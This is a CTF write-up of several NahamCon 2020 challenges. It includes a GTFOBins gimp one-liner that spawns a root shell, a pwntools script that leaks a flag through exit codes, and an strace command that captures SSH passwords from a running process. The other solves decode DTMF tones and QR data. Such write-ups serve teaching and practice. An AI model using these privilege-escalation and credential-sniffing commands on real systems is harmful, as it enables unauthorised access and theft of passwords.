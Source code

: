 # NahamCon CTF 2020

## The Scraps

I rarely do write-ups for small 1-2 line solves, but then all that history gets lost and is hard to find later when I need it, so, here's a rundown of some of the easy ones, you know, for the points.

> All I could find, post CTF on my <strike>HD</strike> SSD.


### Glimpse

```
125

There's not a lot to work with on this server. But there is something...

Connect here:
ssh -p 50027 user@jh2i.com # password is 'userpass'
```

Google for GTFOBins:

```
$ gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
(gimp:25615): GLib-GObject-WARNING **: 18:26:38.010: g_object_set_is_valid_property: object class 'GeglConfig' has no property named 'cache-size'
Failed to parse tag cache: No such file or directory
GIMP-Error: Could not open '/home/user/.gimp-2.8/pluginrc' for writing: Read-only file system
GIMP-Warning: Unable to open a test swap file.
To avoid data loss, please check the location and permissions of the swap directory defined in your Preferences (currently "/home/user/.gimp-2.8").
# cd /root
# ls -l
total 4
-r-------- 1 root root 44 Jun  4 18:53 flag.txt
# cat flag.txt
flag{just_need_a_glimpse_of_the_flag_please}
```

### Awkward

```
125

No output..? Awk-o-taco.

Connect here:
nc jh2i.com 50025
```

Using exit codes to leak info.  Ok, more than 1-2 lines, but still easy, and will never use again:

```
#!/usr/bin/python3

from pwn import *

p = remote('jh2i.com', 50025)
s = 'cat $(find . -name flag.txt) | grep flag{'
dots = 0

while True:
	ss = s + dots * '.'
	ss += '}'
	p.sendline(ss)
	_ = p.recvline().strip()
	if _[0] == ord('0'):
		break
	dots += 1

print('flag length',dots)
letters = '_abcdefghijklmnopqrstuvwxyz-0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ.'

for i in range(dots):
	for j in letters:
		ss = s + j
		p.sendline(ss)
		_ = p.recvline().strip()
		if _[0] == ord('0'):
			s += j
			print('flag',s)
			break

print('flag',s + '}')
```


### SSH Logger

```
175

Someone keeps logging in to this server... can you find their password?

Connect here:
ssh -p 50029 root@jh2i.com # password is 'root'
```

Oldskool, Google for _how to read ssh passwords with strace_:

```
# strace -f -p 1 2>&1 | grep read | grep flag
[pid 24395] read(6, "\10\0\0\0\4flag", 9) = 9
[pid 24395] read(6, "\f\0\0\0\33flag{okay_so_that_was_cool}", 32) = 32
```


### Beep Boop

```
50

That must be a really long phone number... right?

Download the file below.
```

I love DTMF.  It is [central to hacker history](https://www.amazon.com/gp/product/080212061X).  It is completely useless to have in CTFs, but it is [important hacker history](https://www.amazon.com/gp/product/080212061X), and I welcome any retro challenge.

> If you didn't get the hint, read this [book](https://www.amazon.com/gp/product/080212061X)!

Get a Ubuntu 16.04 container for this:

```
# multimon -a DTMF -t wav flag.wav | grep DTMF: | awk '{print $NF}' | xargs | sed 's/ //g'
46327402297754110981468069185383422945309689772058551073955248013949155635325
# python3
>>> bytes.fromhex(hex(46327402297754110981468069185383422945309689772058551073955248013949155635325)[2:])
b'flag{do_you_speak_the_beep_boop}'
```


### Big Bird

```
100

Big Bird is communicating with us in a whole new way! But... how?

Connect here:
https://twitter.com/BigBird01558595
```

_Groan_

2-liner:

```
GetOldTweets3 --username "BigBird01558595" --maxtweets 1000
$ zbarimg <(cat output_got.csv | awk -F, '{print $7}' | awk -F\" '{print $2}' | awk -F\# '{print $2}' | sort -n | awk '{print $NF}' | xargs printf "%02x" | xxd -r -p) 2>&1 | grep QR | awk -F: '{print $NF}'
flag{big_bird_tweets_big_tweets}
```

At least I learned about `GetOldTweets3`.